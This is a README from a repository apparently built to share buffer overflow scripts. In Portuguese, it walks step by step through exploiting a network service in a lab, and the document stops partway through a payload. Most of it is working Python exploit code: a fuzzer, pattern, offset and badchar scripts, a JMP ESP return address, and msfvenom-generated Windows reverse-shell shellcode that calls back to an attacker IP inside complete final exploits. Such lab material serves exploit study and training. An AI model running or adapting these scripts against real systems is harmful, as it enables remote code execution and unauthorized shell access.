

# Scripts-To-Buffer-Overflow
A respository to share Buffer Overflow scripts
Um respositório para compartilhar Scripts para Buffer OverFlow
- Processo
    1. Criar um fuzzer para verificar com quantos bytes a aplicação quebra
        1. Sempre tentar verificar o número mais próximo, exemplo: se em uma interação de 100 em 100 ele quebra em 700, é necessário depois diminuir para 650 para assim chegar mais próximo do valor
    2. Com um software de debugger, verificar se houve a sobreposição do EIP
    3. Verificar em qual local exatamente do payload enviado o EIP é sobreescrito
        1. Verificar o offset, que seria a quantidade de caracteres necessária para chegar até o EIP
    4. Verificar os badchars → Lembrando que praticamente sempre o valor \x00 será um badchar, então é normal começar a geração dos badchars a partir do \x01
        1. Enviar um payload que sobreescreva até o EIP e em seguida inserir todos caracteres possíveis (de \x01 até \xff)
            1. Após enviar o payload é necessário verificar no debugger qual caractere não foi mostrado na pilha. Se por exemplo o caractere \x07 não se encontra, você anota ele.
            2. Em seguida você tira o caractere achado anteriormente do payload, reinicia a aplicação, e envia novamente o payload e faz a mesma verificação da etapa acima
            3. Esse processo vai continuar até todos os caracteres que foram enviados aparecerem na pilha (ESP)
            4. Essa repetição é necessário pois um badchar pode influenciar o byte seguinte, ou seja, por mais que tenha encontrado o badchar, caso o byte seguinte não seja o byte correto, não quer dizer q ele também seja um badchar, por isso que o processo tem que se repetir
    5. Procurar Jumps no código que mandem para ESP
        1. Isso é necessário pois é com a instrução JMP do Assembly que faremos o software executar o exploit
    6. Gerar o Payload
        1. É necessário gerar a saída em formato e C e sinalizar o badchars
    7. Adicionar NOPs no payload
        1. São instruções que não executam nenhuma função, a finalidade de adição do mesmo é nos dar um grau maior de certeza que exploit será executado
    8. Executar o exploit final

- Comandos e códigos usados em cada etapa do processo
    1. Fuzzer
        1. Código
            
            ```python
            #!/usr/bin/env python3
            
            import socket, time, sys
            
            ip = "10.10.57.245"
            
            port = 1337
            timeout = 5
            prefix = "" # Se trata de algum comando que é enviado ao servidor
            qttChar = 50
            string = prefix + "A" * qttChar # String que será enviada para verificar quando o software quebra
            
            while True:
              try:
                with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
                  # Lembrando que esse trecho do código muda conforme o comportamento do software que está sendo analisado
            			s.settimeout(timeout)
                  s.connect((ip, port))
                  s.recv(1024)
                  print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
                  s.send(bytes(string, "latin-1")) # Enviado a carga útil
                  s.recv(1024) # Recebendo a resposta
              except:
            		# Caso não tenha ocorrido uma resposta, quer dizer que o software parou de responder
            		# e provavelmente quebrou -> Sinalizando assim com quantos caracteres ocorreu a quebra
                print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
                sys.exit(0)
              string += qttChar * "A" # incremento do payload
              time.sleep(1)
            ```
            
        2. Execução do Fuzzer
            
            
            
    2. Necessário um debbuger
        1. Image do estado do debugger após a execução do Fuzzer
            
            
            
    3. Usar o pattern create e offset do metasploit
        1. Criar um padrão de caracteres que será enviado ao programa
            
            ```bash
            msf-pattern_create -l <quantidade de caracteres>
            msf-pattern_create -l 650
            ```
            
            
            
            1. Após inserir o padrão criado no payload é necessário apenas enviar
                
                ```python
                import socket
                
                ip = "10.10.57.245"
                port = 1337
                
                prefix = ""# Se trata de algum comando que é enviado ao servidor
                offset = 0
                overflow = "A" * offset
                retn = ""
                padding = ""
                payload = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av"
                
                postfix = ""
                
                buffer = prefix + overflow + retn + padding + payload + postfix
                
                s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                
                try:
                  s.connect((ip, port))
                  print("Sending evil buffer...")
                  s.send(bytes(buffer + "\r\n", "latin-1"))
                  print("Done!")
                except:
                  print("Could not connect.")
                ```
                
            2. Debugger após receber o payload
                
                
                
        2. Verificando após quantos caracteres é atingido o EIP
            1. com msf-pattern_offset
                
                ```bash
                msf-pattern_offset -l <length do padrão criado> -q <valor em hexadecimal do EIP>
                msf-pattern_offset -l 650 -q 76413176
                ```
                
                
                
                1. EIP começa a ser sobreescrito em 634
            2. Com o mona
                
                ```bash
                !mona findmsp -distance <length do padrão criado>
                !mona findmsp -distance 650
                ```
                
                1. Para saber o offset para encontrar a string *EIP contains normal pattern: …*
                    
                    
                    
            3. Após encontrar onde é o início do overflow do EIP basta adicionar essa informação no código
                
                ```python
                offset = 634
                overflow = "A" * offset
                ```
                
    4. Verificando os badchars
        1. Primeiro é necessário criar um array com todos os badchars
            1. Gerando os badchars
                
                ```python
                for x in range(1, 256):
                  print("\\x" + "{:02x}".format(x), end='')
                print()
                ```
                
        2. Em seguida inserir no payload, inserir qualquer sequência de 4 caracteres (AAAA, BBBB) na variável *retn* reiniciar a aplicação e enviar o exploit
            1. Como a variável payload fica
                
                ```python
                payload = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
                ```
                
            2. Um exemplo de como a pilha ficou após enviar o payload
                
                
                
        3. Agora é verificar o primeiro caractere que não se encontra na pilha do debugger
            1. Fazendo a mão
                1. Aqui basta olhar a pilha ao clicar com o botão direito encima de ESP → Follow in Dump
                2. Verificar qual o primeiro byte que não está correto na ordem
                    
                    
                    
            2. usando o mona
                1. Configurando o mona → necessário executar apenas uma vez esse comando
                    
                    ```bash
                    !mona config -set workingfolder c:\mona\%p
                    ```
                    
                2. Gerar um bytearray
                    
                    ```bash
                    !mona bytearray -b "<badchars encontrados>"
                    !mona bytearray -b "\x00..."
                    ```
                    
                3. Comparar a pilha com o bytearray
                    
                    ```bash
                    !mona compare -f <caminho até o arquivo de bytearray> -a <endereço que está em ESP>
                    !mona compare -f C:\mona\oscp\bytearray.bin -a 0191FA30
                    ```
                    
                    
                    
        4. Agora basta repetir o processo igual mencionado no ponto 4.iv acima
            1. Anotar o badchar encontrado, tirar o badchar descoberto do payload, reiniciar a aplicação e enviar o exploit novamente
    5. Procurar Jumps no código que mandem para esp
        1. Manualmente
            
            [Identificando um Bom Endereço de Retorno](https://www.notion.so/Identificando-um-Bom-Endere-o-de-Retorno-132da003e0294379b2461ad9604f57cf?pvs=21)
            
        2. Usando mona
            
            ```bash
            !mona jmp -r esp -cpb "<badchars encontrados>"
            !mona jmp -r esp -cpb "\x00\x23\x3c\x83\xba"
            ```
            
            
            
        3. Escolher qualquer endereço de JMP mostrado
            
            ```
            0x625011af
            ```
            
        4. Em seguida adicionar o endereço em questão na variável *retn*
            1. Porém tem que se atentar que o sistema é little endian, sendo assim tem que escrever ao contrário. Exemplo: se o endereço é \x01\x02\x03\x04 , é necessário inserir \x04\x03\x02\x01 na variável
                
                ```
                retn = "\xaf\x11\x50\x62"
                ```
                
    6. Gerar o payload
        1. Exemplo de payload gerado para trazer uma shell reversa em um windows
            
            ```bash
            msfvenom -p windows/shell_reverse_tcp LHOST=<meu ip> LPORT=<port> EXITFUNC=thread -b "<badchars>" -f c
            
            msfvenom -p windows/shell_reverse_tcp LHOST=10.11.62.6 LPORT=8443 EXITFUNC=thread -b "\x00\x23\x3c\x83\xba" -f c
            ```
            
            
            
        2. Em seguida será apresentado uma saída do código em C, que é necessário adicionar na variável *payload* da seguinte forma:
            
            ```
            payload = ("\xfc\xbb\x1f\xa3\x4d\xdb\xeb\x0c\x5e\x56\x31\x1e\xad\x01"
            "\xc3\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\xe3\x4b\xcf"
            ...
            "\xa0\x3a\x6f\x42\x09\x27\x90\xb9\x4e\x5e\x13\x4b\x2f\xa5"
            "\x0b\x3e\x2a\xe1\x8b\xd3\x46\x7a\x7e\xd3\xf5\x7b\xab\xd3"
            "\xf9\x83\x54")
            ```
            
        3. Como o código fica
            
            ```python
            import socket
            
            ip = "10.10.118.161"
            port = 1337
            
            prefix = ""
            offset = 634
            overflow = "A" * offset
            retn = "\xaf\x11\x50\x62"
            padding = ""
            payload = ("\xfc\xbb\x1f\xa3\x4d\xdb\xeb\x0c\x5e\x56\x31\x1e\xad\x01"
            "\xc3\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\xe3\x4b\xcf"
            "\xdb\x1b\x8c\xb0\x52\xfe\xbd\xf0\x01\x8b\xee\xc0\x42\xd9"
            "\x02\xaa\x07\xc9\x91\xde\x8f\xfe\x12\x54\xf6\x31\xa2\xc5"
            "\xca\x50\x20\x14\x1f\xb2\x19\xd7\x52\xb3\x5e\x0a\x9e\xe1"
            "\x37\x40\x0d\x15\x33\x1c\x8e\x9e\x0f\xb0\x96\x43\xc7\xb3"
            "\xb7\xd2\x53\xea\x17\xd5\xb0\x86\x11\xcd\xd5\xa3\xe8\x66"
            "\x2d\x5f\xeb\xae\x7f\xa0\x40\x8f\x4f\x53\x98\xc8\x68\x8c"
            "\xef\x20\x8b\x31\xe8\xf7\xf1\xed\x7d\xe3\x52\x65\x25\xcf"
            "\x63\xaa\xb0\x84\x68\x07\xb6\xc2\x6c\x96\x1b\x79\x88\x13"
            "\x9a\xad\x18\x67\xb9\x69\x40\x33\xa0\x28\x2c\x92\xdd\x2a"
            "\x8f\x4b\x78\x21\x22\x9f\xf1\x68\x2b\x6c\x38\x92\xab\xfa"
            "\x4b\xe1\x99\xa5\xe7\x6d\x92\x2e\x2e\x6a\xd5\x04\x96\xe4"
            "\x28\xa7\xe7\x2d\xef\xf3\xb7\x45\xc6\x7b\x5c\x95\xe7\xa9"
            "\xf3\xc5\x47\x02\xb4\xb5\x27\xf2\x5c\xdf\xa7\x2d\x7c\xe0"
            "\x6d\x46\x17\x1b\xe6\x63\xe3\x1d\xf0\x1b\xf1\x61\xdc\x20"
            "\x7c\x87\x76\xc7\x29\x10\xef\x7e\x70\xea\x8e\x7f\xae\x97"
            "\x91\xf4\x5d\x68\x5f\xfd\x28\x7a\x08\x0d\x67\x20\x9f\x12"
            "\x5d\x4c\x43\x80\x3a\x8c\x0a\xb9\x94\xdb\x5b\x0f\xed\x89"
            "\x71\x36\x47\xaf\x8b\xae\xa0\x6b\x50\x13\x2e\x72\x15\x2f"
            "\x14\x64\xe3\xb0\x10\xd0\xbb\xe6\xce\x8e\x7d\x51\xa1\x78"
            "\xd4\x0e\x6b\xec\xa1\x7c\xac\x6a\xae\xa8\x5a\x92\x1f\x05"
            "\x1b\xad\x90\xc1\xab\xd6\xcc\x71\x53\x0d\x55\x91\xb6\x87"
            "\xa0\x3a\x6f\x42\x09\x27\x90\xb9\x4e\x5e\x13\x4b\x2f\xa5"
            "\x0b\x3e\x2a\xe1\x8b\xd3\x46\x7a\x7e\xd3\xf5\x7b\xab\xd3"
            "\xf9\x83\x54")
            postfix = ""
            
            buffer = prefix + overflow + retn + padding + payload + postfix
            
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            
            try:
              s.connect((ip, port))
              print("Sending evil buffer...")
              s.send(bytes(buffer + "\r\n", "latin-1"))
              print("Done!")
            except:
              print("Could not connect.")
            ```
            
    7. Adicionar NOPs 
        1. Basta setar a variável *padding* com a quantidade de NOPs desejada
            
            ```
            padding = "\x90" * 16
            ```
            
    8. Basta executar o payload final agora
        1. Exemplo de payload final
            
            ```python
            import socket
            
            ip = "10.10.57.245"
            port = 1337
            
            prefix = ""
            offset = 1978
            overflow = "A" * offset
            retn = "\xaf\x11\x50\x62"
            padding = "\x90" * 16
            payload = ("\xdd\xc7\xd9\x74\x24\xf4\x5a\x31\xc9\xbe\xf5\x70\xa5\xe0"
            "\xb1\x52\x31\x72\x17\x03\x72\x17\x83\x1f\x8c\x47\x15\x23"
            "\x85\x0a\xd6\xdb\x56\x6b\x5e\x3e\x67\xab\x04\x4b\xd8\x1b"
            "\x4e\x19\xd5\xd0\x02\x89\x6e\x94\x8a\xbe\xc7\x13\xed\xf1"
            "\xd8\x08\xcd\x90\x5a\x53\x02\x72\x62\x9c\x57\x73\xa3\xc1"
            "\x9a\x21\x7c\x8d\x09\xd5\x09\xdb\x91\x5e\x41\xcd\x91\x83"
            "\x12\xec\xb0\x12\x28\xb7\x12\x95\xfd\xc3\x1a\x8d\xe2\xee"
            "\xd5\x26\xd0\x85\xe7\xee\x28\x65\x4b\xcf\x84\x94\x95\x08"
            "\x22\x47\xe0\x60\x50\xfa\xf3\xb7\x2a\x20\x71\x23\x8c\xa3"
            "\x21\x8f\x2c\x67\xb7\x44\x22\xcc\xb3\x02\x27\xd3\x10\x39"
            "\x53\x58\x97\xed\xd5\x1a\xbc\x29\xbd\xf9\xdd\x68\x1b\xaf"
            "\xe2\x6a\xc4\x10\x47\xe1\xe9\x45\xfa\xa8\x65\xa9\x37\x52"
            "\x76\xa5\x40\x21\x44\x6a\xfb\xad\xe4\xe3\x25\x2a\x0a\xde"
            "\x92\xa4\xf5\xe1\xe2\xed\x31\xb5\xb2\x85\x90\xb6\x58\x55"
            "\x1c\x63\xce\x05\xb2\xdc\xaf\xf5\x72\x8d\x47\x1f\x7d\xf2"
            "\x78\x20\x57\x9b\x13\xdb\x30\xae\xe8\xdd\xc6\xc6\xec\x21"
            "\xe7\xed\x78\xc7\x8d\x01\x2d\x50\x3a\xbb\x74\x2a\xdb\x44"
            "\xa3\x57\xdb\xcf\x40\xa8\x92\x27\x2c\xba\x43\xc8\x7b\xe0"
            "\xc2\xd7\x51\x8c\x89\x4a\x3e\x4c\xc7\x76\xe9\x1b\x80\x49"
            "\xe0\xc9\x3c\xf3\x5a\xef\xbc\x65\xa4\xab\x1a\x56\x2b\x32"
            "\xee\xe2\x0f\x24\x36\xea\x0b\x10\xe6\xbd\xc5\xce\x40\x14"
            "\xa4\xb8\x1a\xcb\x6e\x2c\xda\x27\xb1\x2a\xe3\x6d\x47\xd2"
            "\x52\xd8\x1e\xed\x5b\x8c\x96\x96\x81\x2c\x58\x4d\x02\x4c"
            "\xbb\x47\x7f\xe5\x62\x02\xc2\x68\x95\xf9\x01\x95\x16\x0b"
            "\xfa\x62\x06\x7e\xff\x2f\x80\x93\x8d\x20\x65\x93\x22\x40"
            "\xac")
            postfix = ""
            
            buffer = prefix + overflow + retn + padding + payload + postfix
            
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            
            try:
              s.connect((ip, port))
              print("Sending evil buffer...")
              s.send(bytes(buffer + "\r\n", "latin-1"))
              print("Done!")
            except:
              print("Could not connect.")
            ```
            
        2. Shell reversa recebida
            
            
            

- Exemplo do código final em cada etapa do processo
    1. Fuzzer
        
        ```python
        #!/usr/bin/env python3
        
        import socket, time, sys
        
        ip = "10.10.57.245"
        
        port = 1337
        timeout = 5
        prefix = "" # Se trata do comando que é enviado ao servidor
        qttChar = 50
        string = prefix + "A" * qttChar # String que será enviada para verificar quando o software quebra
        
        while True:
          try:
            with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
              # Lembrando que esse trecho do código muda conforme o comportamento do software que está sendo analisado
        			s.settimeout(timeout)
              s.connect((ip, port))
              s.recv(1024)
              print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
              s.send(bytes(string, "latin-1")) # Enviado a carga útil
              s.recv(1024) # Recebendo a resposta
          except:
        		# Caso não tenha ocorrido uma resposta, quer dizer que o software parou de responder
        		# e provavelmente quebrou -> Sinalizando assim com quantos caracteres ocorreu a quebra
            print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
            sys.exit(0)
          string += qttChar * "A" # incremento do payload
          time.sleep(1)
        ```
        
    2. NaN
    3. Payload com o padrão criado com um tamanho baseado no passo anterior
        
        ```python
        import socket
        
        ip = "10.10.22.151"
        port = 1337
        
        prefix = ""
        offset = 0
        overflow = "A" * offset
        retn = ""
        padding = ""
        payload = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av"
        postfix = ""
        
        buffer = prefix + overflow + retn + padding + payload + postfix
        
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        
        try:
          s.connect((ip, port))
          print("Sending evil buffer...")
          s.send(bytes(buffer + "\r\n", "latin-1"))
          print("Done!")
        except:
          print("Could not connect.")
        ```
        
    4. Verificação dos badchars
        1. Exemplo do código inicial
            
            ```python
            import socket
            
            #badchars -> \x00
            
            ip = "10.10.22.151"
            port = 1337
            
            prefix = ""
            offset = 634 # Offset criado na etapa anterior
            overflow = "A" * offset
            retn = "BBBB" # Valor que será inserido em EIP -> É necessário que tenha algum valor qualquer 
            padding = ""
            payload = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
            postfix = ""
            
            buffer = prefix + overflow + retn + padding + payload + postfix
            
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            
            try:
              s.connect((ip, port))
              print("Sending evil buffer...")
              s.send(bytes(buffer + "\r\n", "latin-1"))
              print("Done!")
            except:
              print("Could not connect.")
            ```
            
        2. Exemplo do código final
            
            ```python
            import socket
            
            #badchars -> \x00\x23\x3c\x83\xba
            
            ip = "10.10.22.151"
            port = 1337
            
            prefix = ""
            offset = 634
            overflow = "A" * offset
            retn = "BBBB"
            padding = ""
            payload = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" # payload sem os badchars
            postfix = ""
            
            buffer = prefix + overflow + retn + padding + payload + postfix
            
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            
            try:
              s.connect((ip, port))
              print("Sending evil buffer...")
              s.send(bytes(buffer + "\r\n", "latin-1"))
              print("Done!")
            except:
              print("Could not connect.")
            ```
            
    5. Localização de um JMP ESP
        
        ```python
        import socket
        
        #badchars -> \x00\x23\x3c\x83\xba
        
        ip = "10.10.22.151"
        port = 1337
        
        prefix = ""
        offset = 634
        overflow = "A" * offset
        retn = "\xaf\x11\x50\x62" # Endereço do JMP ESP inserido no código
        padding = ""
        payload = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
        postfix = ""
        
        buffer = prefix + overflow + retn + padding + payload + postfix
        
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        
        try:
          s.connect((ip, port))
          print("Sending evil buffer...")
          s.send(bytes(buffer + "\r\n", "latin-1"))
          print("Done!")
        except:
          print("Could not connect.")
        ```
        
    6. Inserir o payload gerado pelo msfvenom em C
        1. Gerando payload no msfvenom
            
            ```bash
            msfvenom -p windows/shell_reverse_tcp LHOST=10.11.62.6 LPORT=8443 EXITFUNC=thread -b "\x00\x23\x3c\x83\xba" -f c
            ```
            
        2. Código com o payload gerado anteriomente
            
            ```python
            import socket
            
            ip = "10.10.22.151"
            port = 1337
            
            prefix = ""
            offset = 634
            overflow = "A" * offset
            retn = "\xaf\x11\x50\x62"
            padding = ""
            payload = ("\xfc\xbb\x1f\xa3\x4d\xdb\xeb\x0c\x5e\x56\x31\x1e\xad\x01"
            "\xc3\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\xe3\x4b\xcf"
            "\xdb\x1b\x8c\xb0\x52\xfe\xbd\xf0\x01\x8b\xee\xc0\x42\xd9"
            "\x02\xaa\x07\xc9\x91\xde\x8f\xfe\x12\x54\xf6\x31\xa2\xc5"
            "\xca\x50\x20\x14\x1f\xb2\x19\xd7\x52\xb3\x5e\x0a\x9e\xe1"
            "\x37\x40\x0d\x15\x33\x1c\x8e\x9e\x0f\xb0\x96\x43\xc7\xb3"
            "\xb7\xd2\x53\xea\x17\xd5\xb0\x86\x11\xcd\xd5\xa3\xe8\x66"
            "\x2d\x5f\xeb\xae\x7f\xa0\x40\x8f\x4f\x53\x98\xc8\x68\x8c"
            "\xef\x20\x8b\x31\xe8\xf7\xf1\xed\x7d\xe3\x52\x65\x25\xcf"
            "\x63\xaa\xb0\x84\x68\x07\xb6\xc2\x6c\x96\x1b\x79\x88\x13"
            "\x9a\xad\x18\x67\xb9\x69\x40\x33\xa0\x28\x2c\x92\xdd\x2a"
            "\x8f\x4b\x78\x21\x22\x9f\xf1\x68\x2b\x6c\x38\x92\xab\xfa"
            "\x4b\xe1\x99\xa5\xe7\x6d\x92\x2e\x2e\x6a\xd5\x04\x96\xe4"
